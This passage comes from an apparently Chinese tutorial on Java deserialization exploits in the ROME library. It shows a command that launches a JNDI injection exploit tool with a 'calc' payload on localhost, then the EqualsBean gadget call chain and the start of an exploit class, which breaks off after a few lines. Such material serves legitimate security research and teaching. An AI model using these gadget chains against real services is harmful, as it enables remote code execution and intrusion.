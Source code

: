 [![](assets/1705886615-a1d0fcf48fe56d92eab8fdb079ff83ab.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120125013-662ebb36-b74f-1.png)

其中 LDAP 服务可以通过 JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar 工具开启

```plain
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C calc -A 127.0.0.1
```

## 9\. EqualsBean 利用链

### 调用链

```plain
TemplatesImpl.getOutputProperties()
EqualsBean.beanEquals()
EqualsBean.equals()
AbstractMap.equals()
HashMap.putVal()
HashMap.put()
HashSet.readObject()
```

### EXP

```plain
package RomeSec;

import com.sun.syndication.feed.impl.EqualsBean;
import javassist.ClassPool;
import javassist.CtClass;

import javax.xml.transform.Templates;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.HashSet;

public class EqualsBeanExp {
    public static void main(String[] args) throws Exception{
        String AbstractTranslet="com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet";
        String TemplatesImpl="com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";
```